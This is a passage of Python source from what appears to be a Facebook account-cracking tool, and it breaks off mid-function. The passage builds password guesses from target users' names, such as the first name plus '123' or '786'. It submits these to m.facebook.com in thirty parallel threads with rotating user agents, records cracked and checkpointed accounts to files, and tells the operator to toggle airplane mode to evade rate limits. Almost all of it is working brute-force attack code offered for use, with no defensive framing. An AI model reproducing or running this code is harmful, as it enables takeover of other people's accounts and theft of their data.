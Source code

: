 					pwv = [name, xz[0]+xz[0],xz[0]+xz[1]+"12345", xz[0]+xz[1]+"786",xz[0]+xz[1]+"123",xz[0]+xz[1]+"1234"]
				else:
					pwv = [name, xz[0]+xz[0],xz[0]+xz[1]+"12345", xz[0]+xz[1]+"786",xz[0]+xz[1]+"123",xz[0]+xz[1]+"1234"]
				if 'mobile' in method:
					pool.submit(crack,idf,pwv)
				elif 'free' in method:
					pool.submit(free,idf,pwv)
				else:
					pool.submit(crack,idf,pwv)
			except:
				pass
def name2():
	clear()
	print(logo);print( '\n [!] OK Result Saved To : \033[1;92mOK.txt/%s\033[1;97m\n [!] CP Result Saved To : \033[1;91mCP.txt/%s\033[1;97m\n [!] \033[1;96mTurn Airplane Mode On/Off Every 5 Minutes\033[1;0m\n'%(okc,cpc))
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = ['445566']
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(frs+'123')
					pwv.append(frs+'12345')
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'12345')
					pwv.append(frs+'1234')
					pwv.append(frs+'786')
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'free' in method:
				pool.submit(free,idf,pwv)
			else:
				pool.submit(crack,idf,pwv)
	
def crack(idf,pwv):
	global loop,ok,cp
	bi = random.choice([u,k,kk,b,h,hh])
	pers = loop*100/len(id2)
	fff = '%'
	sys.stdout.write('\r %s[Count] %s/%s • OK:%s • CP:%s  '%(bi,loop,len(id2),len(ok),cp)),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			pw = pw.lower()
			ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
